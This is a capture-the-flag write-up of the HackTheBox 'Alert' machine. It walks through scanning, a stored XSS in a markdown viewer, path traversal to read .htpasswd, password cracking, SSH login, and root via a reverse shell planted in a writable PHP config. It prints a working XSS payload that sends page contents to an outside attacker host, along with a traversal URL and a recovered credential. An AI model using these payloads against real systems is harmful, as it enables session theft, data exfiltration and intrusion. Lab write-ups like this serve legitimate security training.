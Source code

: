 ## HackTheBox Machine
![alt text](/Machine_Labs/Alert/Images/image.png)

### Link: https://app.hackthebox.com/machines/Alert
-------------------------------------------------------

### RECON:
+ Scan open port in the machine:

```bash
$ nmap -sV -vv -A -T4 -p- alert.htb
PORT      STATE    SERVICE REASON      VERSION
22/tcp    open     ssh     syn-ack     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
| ssh-rsa 
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
| ecdsa-sha2-nistp256 
|   256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIG/QUl3gapBOWCGEHplsOKe2NlWjlrb5vTTLjg6gMuGl
80/tcp    open     http    syn-ack     Apache httpd 2.4.41 ((Ubuntu))
| http-title: Alert - Markdown Viewer
|_Requested resource was index.php?page=alert
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
12227/tcp filtered unknown no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

+ Enumerate the all directories:

```bash
$ gobuster dir -u http://alert.htb -w /usr/share/wordlists/dirb/common.txt -xtxt -t64
===============================================================
Starting gobuster in directory enumeration mode
===============================================================

/contact.php          (Status: 200) [Size: 24]
/css                  (Status: 301) [Size: 304] [--> http://alert.htb/css/]
/index.php            (Status: 302) [Size: 660] [--> index.php?page=alert]
/index.php            (Status: 302) [Size: 660] [--> index.php?page=alert]
/messages             (Status: 301) [Size: 309] [--> http://alert.htb/messages/]
/messages.php         (Status: 200) [Size: 1]
/server-status        (Status: 403) [Size: 274]
/uploads              (Status: 301) [Size: 308] [--> http://alert.htb/uploads/]
Progress: 18456 / 18460 (99.98%)
===============================================================
Finished
```

+ Enumerate valid subdomain of `alert.htb`:

```bash
$ ./ffuf -u 'http://alert.htb' -H 'Host: FUZZ.alert.htb' -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -t 100 -fc 301
```
![alt text](/Machine_Labs/Alert/Images/image-1.png)

### XSS VULN:
+ In page `alert` - Markdown Viewer, we upload file `.md`. After checking all potential parameters can be XSS, we've found out that we can inject payload into file `.md` to pop up the alert XSS when view markdown.
+ We've prepared the payload `<script>alert(document.domain)</script>` and upload file `.md` to view markdown:

![alt text](/Machine_Labs/Alert/Images/image-3.png)

--> It work and the vuln XSS exist.

+ Check another pages, we notice in page `About us`:

![alt text](/Machine_Labs/Alert/Images/image-4.png)

--> It means that when we send contact messages and report then admin account will be auto checked. We can send messages in page `Contact` and capture the action of account administrators. Using the XSS Vuln to retrive sensitive information.

### GET INITIAL:
+ First we will generate payload XSS to retrive:

```js
<script>
fetch("http://alert.htb/index.php?page=messages")
.then(response => response.text()) // Convert the response to text
.then(data => {
fetch("http://10.10.14.29:8000/?data=" + encodeURIComponent(data));
})
</script>
```

***Note:*** When enumerating the directories, we found the hidden direc `messages` but we can not read information inside so we will use payload XSS to retrive informatio inside `messages`.

+ We open the local server:

```bash
$ sudo python3 -m http.server
[sudo] password for zicco: 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

+ Upload the payload `.md`, after upload normal we choose `Share Mardown` and get the share link:

![alt text](/Machine_Labs/Alert/Images/image-5.png)

+ Copy the `link_share` and send it in `Contact`:

![alt text](/Machine_Labs/Alert/Images/image-6.png)

+ After send it, we will check the local server will capture the action:

![alt text](/Machine_Labs/Alert/Images/image-7.png)

+ Decode the capture and we see the potential information:

![alt text](/Machine_Labs/Alert/Images/image-8.png)

--> Now we can see the hidden direct `Messages` and notice the line `<h1>Messages</h1><ul><li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li></ul>`. We are able to access the messages.php with parameter `file` to read deeper.

+ We will manipulate `messages.php?file=` to read root file of subdomain which we've found `statistics.alert.htb` and we have the `PATH=/var/www/statistics.alert.htb/`. 
+ We've known the file contain password we can find in root file that is `.htpasswd`. Combine with `Path Traversal` we'had the full path: `http://alert.htb/messages.php?file=../../../../../var/www/statistics.alert.htb/.htpasswd`.
+ Edit payload, get the link_share, send it and capture again:

![alt text](/Machine_Labs/Alert/Images/image-9.png)

+ Decode the capture:

![alt text](/Machine_Labs/Alert/Images/image-10.png)

+ Crack the passwd. Put the full hash `$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/` in file .txt and use tool JohnTheRipper or Hashcat to bruteforce it:

![alt text](/Machine_Labs/Alert/Images/image-2.png)

--> We've had credential `albert:machesterunited`.

+ Login SSH:

![alt text](/Machine_Labs/Alert/Images/image-11.png)

### PRIVILEGE ESCALATION:
+ We can not run sudo. Using tool to enumerate vector priv and found the server port 8080 run local:

![alt text](/Machine_Labs/Alert/Images/image-12.png)

+ Check again `/opt`, we've known server is running port 8080 is `webstie-monitor`:

![alt text](/Machine_Labs/Alert/Images/image-13.png)

+ Website is monitoring 2 pages `alert.htb` and `statistics.alert.htb`:

![alt text](/Machine_Labs/Alert/Images/image-14.png)

+ Curl port 8080 we can read it but can not access directly:

![alt text](/Machine_Labs/Alert/Images/image-15.png)

+ We can use `Tunnel` to access port 8080. With myself, we use tool [Chisel](https://github.com/jpillora/chisel) to create TCP tunnel over HTTP to access port 8080.

+ In the attack machine, we open listener:

![alt text](/Machine_Labs/Alert/Images/image-16.png)

+ In target machine, we open:

![alt text](/Machine_Labs/Alert/Images/image-18.png)

+ Now we can access the page port 8080:

![alt text](/Machine_Labs/Alert/Images/image-19.png)

+ we can read /monitors/alert.htb:

![alt text](/Machine_Labs/Alert/Images/image-17.png)

+ Back again /opt/website-monitors, we've seen the potential directory `config`. The directory `config` can execute with both priv `root` and `management`
and file `configuration.php` is same. 
+ Check file `configuration.php` and we can overwrite it so we can create revershell and capture root. We will use payload webshell [PHP PentestMonkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).
+ Edit file and save it. When save file, `configuration.php` will be auto executed and use Netcat to capture the revershell:

![alt text](/Machine_Labs/Alert/Images/image-20.png)


